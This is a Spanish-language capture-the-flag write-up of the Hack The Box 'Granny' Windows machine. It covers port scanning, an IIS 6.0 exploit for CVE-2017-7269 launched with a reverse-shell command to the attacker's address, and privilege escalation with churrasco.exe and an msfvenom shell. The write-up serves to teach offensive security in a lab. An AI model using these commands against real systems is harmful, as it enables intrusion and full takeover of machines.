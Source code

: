 ![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/granny.jpg)

## Windows - Easy
IP = 10.10.10.15

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -oG allPorts 10.10.10.15
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/allports.jpg)

    nmap -sC -sV -p80 -oN targeted 10.10.10.15

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/targeted.jpg)

Detectamos un puerto IIS 6.0 habilitado 

Buscamos vulnerabilidades de IIS 6.0 y encontramos el CVE-2017-7269

Nos descargamos el exploit de:

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

Ejecutamos el exploit poniendo el puerto a la escucha.

    python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 4444

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/acceso.jpg)   

Conseguimos acceso a la maquina, comprobamos el usuario con el que hemos accedido nt autority\network service

Esta cuenta tiene permisos de acceso a los recursos de red pero no podemos hacer nada con ella.

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/networkservice.jpg)

Buscamos informacion para la escalada de privilegios y encontramos el articulo

https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

ejecutamos 

    whoami /priv
    
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/impersonate.jpg)

comprobamos que el SeImpresontaPrivilege Enabled
Descargamos churrasco.exe y lo compartimos con impacket

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/churrasco.jpg)

Ejecutamos whoami con churrasco.exe y vemos que somos system

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/system.jpg)

Creamos un reverse shell con msfvenom

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/shell.jpg)

lo copiamos en granny

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/copy2.jpg)

ponemos en escucha el puerto de nuestro reverse shell y ejecutamos lo ejecutamos con churrasco

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/exploit.jpg)

Conseguimos acceso con system

leemos la flag de user

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/user.jpg)

### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/root.jpg)
